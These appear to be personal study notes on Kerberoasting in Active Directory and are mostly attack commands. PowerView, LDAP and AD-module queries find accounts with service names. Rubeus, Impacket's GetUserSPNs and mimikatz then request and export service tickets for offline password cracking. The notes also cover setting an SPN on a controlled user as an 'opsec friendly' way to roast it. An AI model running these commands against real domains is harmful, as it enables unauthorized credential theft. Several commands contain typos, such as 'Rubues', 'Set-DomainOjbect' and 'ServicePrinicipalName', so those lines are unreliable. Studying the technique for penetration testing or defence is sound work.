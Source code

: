 #powerview #powershell #ldap #rubeus #mimikatz #impacket 
- ST can be requested by any user for any service if it's [[Active Directory/AD Concepts/Services#SPN|SPN]] is registered in the domain.
- STs are encrypted with the service account which runs the service.
- Hence, we can try to crack the password of the service user account.
- In case of managed service accounts, the password is of 120 characters and changes every month, hence it is not possible to crack their password.
- However, some services are run with normal user accounts, managed by people, that can have weak password.
- Kerberoast involves service running under regular user accounts. We can request STs for the services and crack password locally.
We can query for users with SPNs using
- Powerview
```powershell
Get-NetUser -SPN
```
- LDAP
```ladp
(&(samAccountType=805306368)(servicePrincipalName=*))
```
- AD-RSAT (Active Directory module)
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrinicipalName
```
- Rubeus
```powershell
# list kerberos stats
.\Rubeus.exe kerberoast /stats

# Look of kerberoastable account that only supports RC4_HMAC
.\Rubues.exe kerberoast /stat /rc4opsec
```
### Requesting STs
- Impacket's `GetUserSPNs.py` script can be used to query users with SPN and request STs for the service.
```bash
# This will search for SPNs, request STs for the same using supplied credentials and same the STs in "kerberoast.hash"
python GetUserSPNs.py mydomain.local/a.drdragon:Password!! -dc-ip <ip> -outputfile kerberoast.hash
```
- Requesting a TGS using powrshell
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQL/mssqldomain.mydomain.local"
# This will add the kerberos key in memeory, and can be verified with klist
klist
# The key can be extracted with mimikatz
kerberos::list /export
```
- Powerview
```powershell
Request-SPNTicket
```
- Rubeus
```powershell
.\Rubeus kerberoast /nowrap [/user:<username>] /simple

# for rc4_hmac account
.\Rubeus kerberoast /nowrap [/user:<username>] /simple /rc4opsec
```
---
If we have `GenericAll` or `GenericWrite` over a user, we can set a random SPN for that user, and request ST for it. This is opsec friendly as resetting a user password is noisy. SPN for a user can be set using (SPN should be unique for the forest): 
```powershell
# Powerview
Set-DomainOjbect -Identity support30user -Set @{serviceprincipalname = 'dcorp/whatever'}

# Ad module
Set-ADUser -Identity support30user -ServicePrincipalNames @{Add='dcorp/whatever'}
```